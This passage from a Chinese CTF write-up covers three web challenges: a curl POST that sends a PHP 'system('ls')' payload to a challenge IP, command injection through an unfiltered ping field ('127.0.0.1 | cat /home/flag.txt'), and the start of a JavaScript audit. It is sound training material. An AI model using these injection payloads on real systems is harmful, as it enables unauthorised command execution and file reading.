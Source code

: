 **总结**：用curl的话
```sh
curl -d "shell=system('ls');" -X POST http://111.198.29.45:44142/
```
中的```POST```须为大写；PHP命令后的分号不能少。2020.2.22.Sat

---

# 11. command_execution

**题目描述**：小宁写了个ping功能,但没有写waf,X老师告诉她这是非常危险的，你知道为什么吗。

**WP**:
> **[原理]**  
> | 的作用为将前一个命令的结果传递给后一个命令作为输入  
> &&的作用是前一条命令执行成功时，才执行后一条命令  
>   
> **[目地]**  
> 掌握命令拼接的方法  
>   
> **[环境]**  
> windows  
>   
> **[工具]**  
> firefox  
>   
> **[步骤]**  
> 1. 打开浏览器，在文本框内输入127.0.0.1 | find / -name "flag.txt" （将 | 替换成 & 或 && 都可以）,查找flag所在位置。
> 2. 在文本框内输入 127.0.0.1 | cat /home/flag.txt 可得到flag。

**总结**：原来```find -name```不支持模糊查询。。。
```sh
127.0.0.1;find / -name flag
```
搜不出来，
```sh
127.0.0.1;find / -name flag.txt
```
却可以。2020.2.23.Sun

---

# 12. simple_js

**题目描述**：小宁发现了一个网页，但却一直输不对密码。(Flag格式为 Cyberpeace{xxxxxxxxx} )

**WP**:
> **[原理]**  
> javascript的代码审计  
>   
> **[目地]**  
> 掌握简单的javascript函数  
>   
> **[环境]**  
> windows  
>   
> **[工具]**  
> firefox  
>   
> **[步骤]**  
> 1. 打开页面，查看源代码，可以发现js代码。  
> 2. 进行代码审计，发现不论输入什么都会跳到假密码，真密码位于 fromCharCode 。
> 3. 先将字符串用python处理一下，得到数组[55,56,54,79,115,69,114,116,107,49,50]，exp如下。
s="\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"  